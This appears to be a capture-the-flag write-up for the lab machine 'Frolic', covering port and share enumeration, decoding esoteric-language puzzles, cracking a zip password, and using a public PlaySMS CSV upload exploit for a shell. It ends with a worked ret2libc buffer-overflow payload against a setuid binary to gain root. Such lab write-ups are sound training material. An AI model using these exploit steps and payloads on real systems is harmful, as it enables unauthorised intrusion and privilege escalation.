# Frolic
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.111
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-14 16:52 BST
Nmap scan report for 10.10.10.111 (10.10.10.111)
Host is up (0.15s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1880/tcp open  vsat-control
9999/tcp open  abyss

Nmap done: 1 IP address (1 host up) scanned in 1037.54 seconds
```
```
└─$ nmap -sV -sC -p22,139,445,1880,9999 10.10.10.111
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-14 17:10 BST
Nmap scan report for 10.10.10.111 (10.10.10.111)
Host is up (0.16s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 877b912a0f11b6571ecb9f77cf35e221 (RSA)
|   256 b79b06ddc25e284478411e677d1eb762 (ECDSA)
|_  256 21cf166d82a430c3c69cd738bab502b0 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1880/tcp open  http        Node.js (Express middleware)
|_http-title: Node-RED
9999/tcp open  http        nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
Service Info: Host: FROLIC; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h50m26s, deviation: 3h10m30s, median: -27s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-06-14T16:09:55
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: frolic
|   NetBIOS computer name: FROLIC\x00
|   Domain name: \x00
|   FQDN: frolic
|_  System time: 2023-06-14T21:39:55+05:30
|_nbstat: NetBIOS name: FROLIC, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.51 seconds
```
- `smbmap`
```
└─$ smbmap -H 10.10.10.111
[+] Guest session       IP: 10.10.10.111:445    Name: 10.10.10.111                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (frolic server (Samba, Ubuntu))
```
```
└─$ smbclient -N -L //10.10.10.111

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (frolic server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            FROLIC
```
- `gobuster` port `9999`
```
└─$ gobuster dir -u http://10.10.10.111:9999 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.111:9999
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/06/14 17:34:41 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/admin/]
/test                 (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/test/]
/dev                  (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/dev/]
/backup               (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/backup/]
/loop                 (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/loop/]
```
```
└─$ gobuster dir -u http://10.10.10.111:9999/dev -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.111:9999/dev
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/06/14 17:45:50 Starting gobuster in directory enumeration mode
===============================================================
/test                 (Status: 200) [Size: 5]
/backup               (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/dev/backup/]
```
- `gobuster` port `1880`
```
└─$ gobuster dir -u http://10.10.10.111:1880 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,html,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.111:1880
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2023/06/22 16:42:49 Starting gobuster in directory enumeration mode
===============================================================
/icons                (Status: 401) [Size: 12]
/red                  (Status: 301) [Size: 173] [--> /red/]
/vendor               (Status: 301) [Size: 179] [--> /vendor/]
/settings             (Status: 401) [Size: 12]
/Icons                (Status: 401) [Size: 12]
/nodes                (Status: 401) [Size: 12]
```
- Web server on port `1880`


- Web server on port `9999`









- `Playsms`







## Foothold/User
- Open files from `backup` route
  - Which doesn't work on any login page, so let's continue enumeration





- If we check `admin` path
  - View page source and open `login.js`
  - We see the creds
  - Let's use them
  - We get a weird puzzle or encrypted message





- Googling quite a bit resulted in esoteric programming language called [Ook!](https://esolangs.org/wiki/ook!)
  - [Ook! Interpreter](https://www.dcode.fr/ook-language)
  - Decoded as: `Nothing here check /asdiSIAJJ0QWE9JAS`


- Let's navigate there
  - More encoded text


- Let's curl it and decode it


- Which looks like a `zip` file


- Let's unzip it
  - Looks like it's protected with a password
  - Use `frackzip` or `john2zip` with `john`: https://linuxconfig.org/how-to-crack-zip-password-on-kali-linux





- Another encoded text
  - Remove `\r\n` to be able to decode from base64


- It's a [brainfuck](https://en.wikipedia.org/wiki/Brainfuck)
  - [Interpreter](https://copy.sh/brainfuck/)
  - Result: `idkwhatispass`



- Entering the creds to every login page
  - Worked for `Playsms` login page


- I didn't find a version of the application
  - There is a list of public exploits
  - Let's play with `php/webapps/42044.txt` 
  - https://www.exploit-db.com/exploits/42044
  - https://www.youtube.com/watch?v=KIB9sKQdEwE


- Create `backdoor.csv`



- Upload `csv` to `Phonebook`







- We got shell


## Root
- Let's enumerate


- We find a binary called `rop`
  - Owned by `root` with setuid 
  - Which implies binary exploitation using `rop`
  - Let's download it 


- Let's check if we can overwrite the `EIP` register
  - Create pattern
  - `msf-pattern_create -l 200`
  - Then run binary by inputing the pattern
  - Check `EIP` register
  - Find the offset using the value of `EIP`: `msf-pattern_offset -q 'b7Ab'`




- We see the offset is equal to `52`
  - So let's test it: `python3 -c 'print("A" * 52 + "BBBB")'` 
  - And input the result to binary and check the `EIP`


- Let's also check `ASLR`
  - `cat /proc/sys/kernel/randomize_va_space`


- Okay, `ASLR` is off
  - Let's find the addresses of `system` and `exit`, since we want to overwrite `EIP`, so that we force program to return/call the `system`
  - But we also need to make a correct stack shape, so that the program finds the arguments
  - `ldd rop` - to list dynamic dependencies of the `rop` binary
  - `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep " system@"` - display system table information about the object file and grep `system`
  - `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep " exit@"` - display system table information about the object file and grep `exit`
  - `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh` - get a `/bin/sh` strings offset in `libc`



- Now we need to calculate the addresses and craft a payload
  - `system` = `0xb7e19000 + 0x0003ada0` = `0xb7e53da0`
  - `exit` = `0xb7e19000 + 0x0002e9d0` = `0xb7e479d0`
  - `/bin/sh` = `0xb7e19000 + 0x15ba0b` = `0xb7f74a0b`
  - Payload: "A" * 52 + SYSTEM + EXIT + SHELL
  - The image of the stack frame after we "call" `system`


- So let's exploit
  - `python -c 'print("A"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7" + "\x0b\x4a\xf7\xb7")'`
  - Supply the payload to binary
  - And we are root


